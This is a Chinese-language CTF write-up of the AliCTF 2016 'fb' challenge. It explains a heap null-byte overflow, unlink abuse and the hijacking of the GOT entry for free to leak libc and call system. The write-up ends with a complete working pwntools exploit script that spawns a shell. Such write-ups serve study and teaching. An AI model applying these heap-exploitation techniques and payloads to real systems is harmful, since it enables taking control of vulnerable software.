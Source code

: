 title: AliCTF 2016 fb writeup

date: 2016/06/07 20:33:00

---

一道堆中的null byte溢出题

程序用连续两个8 bytes变量分别存储分配的堆指针和其size，然后将这样的结构体以数组的形式存储在全局变量区0x6020C0。主要逻辑就是每次新建一个message的时候，从0x6020C0开始找size为0的地方，之后调用malloc分配目标大小存储堆指针，删除的时候会先清size为0再调用free()释放内存

<!--more-->

由于读取输入的时候会在最后再添加'\x00'：
```
.text:00000000004008E4                 cdqe
.text:00000000004008E6                 lea     rdx, [rax-1]
.text:00000000004008EA                 mov     rax, [rbp+var_18]
.text:00000000004008EE                 add     rax, rdx
.text:00000000004008F1                 mov     byte ptr [rax], 0
.text:00000000004008F4                 mov     eax, [rbp+var_8]
.text:00000000004008F7                 sub     eax, 1
```

所以可以构造payload溢出下一块chunk的size中的prev_inuse位，伪造prevsize字段，触发free()向前合并，就可以导致unlink使用我们伪造的fd和bk指针改写当前chunk的堆指针，使其指向0x6020C8（一开始忘了堆的对齐是加8 bytes再对齐，结果怎么也溢不出来...）

之后再编辑被修改过的堆指针就可以直接修改全局变量区了，由于只开了Partial级别的RELRO：

```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
所以可以考虑劫持free()的GOT到库中的system()，然后再有一个/bin/sh写在chunk中就可以拿shell了，在这之前得先泄漏一下库的地址过掉ASLR，所以先把free的GOT劫持到puts的PLT上，泄漏一下read()的地址，这里可以用[libc-database][1]这个工具来查找远程库的版本（但是不知道为什么我本地的库版本查不出来，只能手动查偏移），因为ASLR不会影响低12位的地址

然后泄漏出来算下偏移就可以调用system()了



Exploit:

```
# -*- coding: utf-8 -*-
from pwn import *

io=process('./fb')
# io = remote("114.55.103.213",9733)

SIZE=0xf8
PLT_puts=0x4006C0
GOT_free=0x602018
GOT_read=0x602040
FD=0x6020C8
BK=0x6020D0

def init(size):
	io.recvuntil('Choice:')
	io.sendline('1')
	io.recvuntil('length:')
	io.sendline(str(size))
	io.recvuntil('Done~')

def edit(index,content):
	io.recvuntil('Choice:')
	io.sendline('2')
	io.recvuntil('index:')
	io.sendline(str(index))
	io.recvuntil('content:')
	io.sendline(str(content))
	io.recvuntil('Done~')

def delete(index):
	io.recvuntil('Choice:')
	io.sendline('3')
	io.recvuntil('index:')
	io.sendline(str(index))
	io.recvuntil('Done~')

def leak(dst):
	edit(1,p64(dst)+p64(SIZE)[:-1])
	io.recvuntil('Choice:')
	io.sendline('3')
	io.recvuntil('index:')
	io.sendline('0')
	leakmem = io.recvuntil("Done~")[:-6]
	return str(leakmem)

def main():

	init(SIZE)
	init(SIZE)
	init(SIZE)
	init(SIZE)
	init(SIZE)

	payload=p64(0xf1)+p64(0xf1)+p64(FD)+p64(BK)+'A'*0xd0+p64(0xf0)
	# overflow null byte
	edit(2,payload)
        # gdb.attach(io,execute=("b *%s"%(0x400CCF)))
	delete(3)
        
	payload2=p64(SIZE)+p64(0x6020C0)+p64(SIZE)+p64(GOT_free)+p64(SIZE)
	edit(2,payload2)

	# modify GOT entry of free to PLT entry of puts
	# use [:1] to prevent \x00 from causing damage
	edit(2,p64(PLT_puts)[:-1])

	# leak read_addr
	read_addr=u64(leak(GOT_read).ljust(8,'\x00'))
	print "read_addr: "+str(hex(read_addr))


	system_addr=read_addr-0x980C0
	# system_addr= read_addr-0xeb6a0 +0x46590
	
	# modify free to system
	edit(2,p64(system_addr)[:-1])
	edit(4,"/bin/sh")
	
	# now get shell
	io.recvuntil('Choice:')
	io.sendline('3')
	io.recvuntil('index:')
	io.sendline('4')

	io.interactive()

main()


```


[1]: https://github.com/niklasb/libc-database